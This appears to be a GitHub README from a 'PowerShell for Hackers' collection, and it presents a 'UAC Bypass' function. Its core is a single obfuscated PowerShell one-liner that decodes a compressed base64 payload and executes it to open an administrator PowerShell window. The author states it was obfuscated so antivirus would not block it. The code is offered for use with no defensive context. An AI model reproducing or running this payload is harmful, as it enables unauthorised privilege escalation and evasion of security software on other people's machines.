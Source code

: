 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# UAC Bypass

## Description

This will open a powershell window with Admin privledges 

## The Function

### [UAC Bypass] 

The plain text version of this function will be blocked by your anti virus so I had to obfuscate it and compress it 
When this function is ran in a powershell window it will open another powershell window with Admin privledges 

```
.( $enV:coMSPEc[4,26,25]-JOin'') ( nEW-OBject  iO.stReamReader((nEW-OBject  IO.coMpRession.DEfLateStREAm( [SysTEm.io.mEmoRYStrEAM][COnVeRT]::frOMBASe64sTRinG('hY6xCoMwFEV/5RFc1aGjdHJooRSH0E5ZQnO1QmJCXop+fo1QKBTsfs+5p+iup6MIfkbkJ6ytsEA0EQNpY0icL+1NSd+nWUeo1mpmsKq8G5TMc9UFTOrhndOTEVQbKlYh1f0/heOSkdI4DazaV7wjbrTIapH53pv1ICDmokYmHVMpLRCoZDpsegOLhN1I8UnZ337XbMjPH2EZ0xs=' ), [sYsTem.Io.ComPReSsioN.COMPReSSionmodE]::decoMpREss) ),[sysTEm.teXt.enCoDIng]::AsCii) ).rEADtoENd( )

```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

This function is not used in any current payloads


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  [Project Link](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)


<p align="right">(<a href="#top">back to top</a>)</p>
